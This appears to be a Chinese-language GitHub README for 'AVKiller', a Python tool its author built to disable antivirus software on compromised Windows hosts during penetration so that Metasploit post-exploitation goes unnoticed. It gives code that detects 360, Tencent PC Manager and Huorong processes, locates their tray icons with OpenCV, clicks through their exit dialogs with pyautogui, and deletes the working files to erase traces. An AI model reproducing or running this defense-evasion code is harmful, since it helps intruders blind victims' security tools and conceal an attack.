 # AVKiller
##利用图形化识别技术快速关闭目标机器上的杀毒软件

写该脚本的原因是4月份在进行内网渗透的时候，对MSF木马做了免杀处理，做完免杀的木马可以完美绕过杀毒软件的检测，但是msf木马在执行下一步操作的时候，往往会向目标计算机继续写入exe文件或执行powershell代码，这样的操作几乎都会引发杀毒软件的告警，让渗透的过程被对方察觉，而且MSF生成的后渗透可执行文件已经被所有杀毒软件厂商提取特征码，免杀效率几乎为0。所以才有了为何不直接关闭目标的杀毒软件后再进行后渗透操作的想法。


##功能实现

###1.识别杀软###

为了实现自动识别杀毒软件的功能，首先要知道系统运行了哪些杀毒软件，CMD命令tasklist可以列出系统正在运行的进程，将其与已知的杀毒软件进行进行匹配即可，如果进程中有与av_process里的进程名，说明该电脑正在运行XX杀毒软件。这里需要做个判断，如果不存在杀毒软件的话，则退出该程序。

	#检测杀毒软件函数，返回杀毒软件名称
	av_process = {'hr': 'HipsTray.exe', 'txgj': 'QQPCTray.exe', '360': '360sd.exe'}
	def runningAVs():
		tasklist = popen('tasklist').read().split()  #运行系统命令tasklist
		for av_exe in av_process.values():
			if av_exe in tasklist:
				usingAV = [k for k, v in av_process.items() if v == av_exe][0]
				return usingAV # 返回目标主机使用的杀毒软件名称


判断目标主机使用的杀毒软件后，由于使用的是图像识别，所以需要将对应的图标和"确认""退出"的字样写入

	# 杀毒软件logo，以及其他字符图片的写入。若不存在杀毒软件，程序退出
	try:
		AV = runningAVs()
		print(AV)
		# 将对应的logo写入
		logo_b64 = b64_AV_logo[AV]
		logo_img = base64.b64decode(logo_b64)
		with open(logoImage, 'wb') as f:
			f.write(logo_img)
			
		# 输出通用的‘退出’字符串图片
		with open(logoutImage, 'wb') as f:
			f.write(base64.b64decode(b64_logout))
			
		# 通过杀毒软件判断最后一步退出步骤应该使用的字样
		#（360与腾讯管家的最后一步“确认”字样底色颜色不一样）
		if AV == r'hr':
			return b64_logout
		elif AV == r'360':
			return b64_blue_comfirm
		else:
			return b64_white_comfirm
	#没检测到杀毒软件，程序退出
	except :
		print('主人，这家伙没开杀毒软件！！！！干他๑乛◡乛๑ ')
		exit()


###2.坐标获取

知道目标主机运行的程序后就需要准备关闭它了，这时候使用opencv的图像识别技术，找到目标（杀毒软件）logo在屏幕的位置，以坐标形式进行返回，用于对鼠标的定位。

	# 使用opencv获取图标的坐标（logo，退出，确认等字样）
	def get_position(imgSource, imgTarget):
		source = cv2.imread(imgSource, 0)  # 0-灰度处理，防止颜色不同对定位产生影响
		target = cv2.imread(imgTarget, 0)
		wight, height = target.shape[::-1]  # 获取图片长和宽，方便确定文字的中新坐标
		res = cv2.matchTemplate(source, target, cv2.TM_CCOEFF_NORMED)
		min_val, max_val, min_loc, max_loc = cv2.minMaxLoc(res)
		pos_x = int(max_loc[0] + wight / 2)
		pos_y = int(max_loc[1] + height / 2)
		# print(pos_x, pos_y)
		return pos_x, pos_y


###3.鼠标操作

这是pyautogui库的功能，此程序用到的只是rightClick，Click功能，主要是利用opencv获取到的坐标，让鼠标进行移动到对应的位置，然后进行右击和点击操作。

###4.清理痕迹

活干完了，总不能抢前走人吧，至少得擦掉一些痕迹吧！由于需要多次通过图片对比来找到坐标，所以会在目标电脑里保存6张图片，所以当杀毒软件退出后，我们需要将其删除。CMD的del命令可以删除文件（不是移动到回收站，而是直接删除）

	def clean():
	popen(r'del /q {} {} {} {} {} {}'.format(logoutImage, logoImage, comfireImage,screen_before,screen_logout,screen_comfire))


###5.Tips

####a)	关于sleep：为什么需要sleep？

Pyautogui进行截屏操作的时候需要时间（100ms左右，电脑性能会导致时间长短不同），sleep时长跟电脑性能有关，如果目标主机性能足够好的话，可以适当减小sleep时长。

####b)	关于图片存放位置：为什么不直接在当前目录下？

在当前目录下由于图片中有类似‘退出’、‘确认’字样，会被opencv识别，导致定位不准，所以必须保存在其他目录下

####c)	关于打开右下角隐藏起的图标

Win+B，再按一下空格键或者回车键

####d)	关于图片保存

先将图片转为base64，需要用的时候再将其解码回来即可。而且重要的是，当进行渗透的时候，只需要上传一个文件！减少上传的文件数量！

####e)关于图标与桌面的打开软件的图标是否冲突

这个不会，因为opencv识别时的SourceImage和TargetImage大小差别太大不能识别

###6. 图片展示
![markdown](https://github.com/PDWR/AVKiller/blob/master/images/360.gif "关闭360")
![markdown](https://github.com/PDWR/AVKiller/blob/master/images/txgj.gif "关闭腾讯管家")
![markdown](https://github.com/PDWR/AVKiller/blob/master/images/hr.gif "关闭火绒")
